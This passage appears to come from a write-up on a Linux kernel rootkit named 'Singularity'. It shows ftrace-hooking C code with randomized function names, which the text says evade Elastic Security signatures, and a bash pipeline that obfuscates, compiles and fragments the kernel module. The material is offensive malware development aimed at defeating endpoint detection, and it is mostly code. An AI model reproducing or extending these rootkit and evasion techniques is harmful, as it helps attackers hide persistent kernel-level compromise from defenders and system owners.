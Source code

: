 Example after Obfuscation:

```c
// obfuscated/ftrace/ftrace_helper.c
notrace int kern_xploqm_helper(struct ftrace_hook *hook)
{
    hook->address = kallsyms_lookup_name(hook->name);
    // ...
}

notrace int sys_zmnpqr_ops(struct ftrace_hook *hook)
{
    int err = kern_xploqm_helper(hook);
    // ...
}

notrace void net_abqzpx_handler(struct ftrace_hook *hook)
{
    int err = unregister_ftrace_function(&hook->ops);
    // ...
}

notrace int fs_klmnop_worker(struct ftrace_hook *hooks, size_t count)
{
    size_t i;
    int err;
    for (i = 0; i < count; i++) {
        err = sys_zmnpqr_ops(&hooks[i]);
        // ...
    }
}

notrace void proc_qwerty_entry(struct ftrace_hook *hooks, size_t count)
{
    size_t i;
    for (i = 0; i < count; i++)
        net_abqzpx_handler(&hooks[i]);
}
```

The obfuscated names maintain the ftrace hooking functionality while breaking the specific signature patterns that Elastic Security looks for. The functions remain fully operational since the kernel doesn't care about function names in loaded modules.

# Build Pipeline: Automated Obfuscation Workflow

Our automated build system chains all evasion techniques in a reproducible pipeline:

```bash
#!/bin/bash
set -e

echo "[*] Singularity Build"

rm -rf obfuscated fragments loader singularity_payload*

# 1. Obfuscate and compile
echo "[1] Obfuscating and compiling..."
python3 obfuscator/name_randomizer.py --input . --output obfuscated
cd obfuscated && make && cd ..

# 2. Fragment the .ko
echo "[2] Fragmenting module..."
python3 obfuscator/ko_fragmenter.py --input obfuscated/singularity.ko --output fragments

```
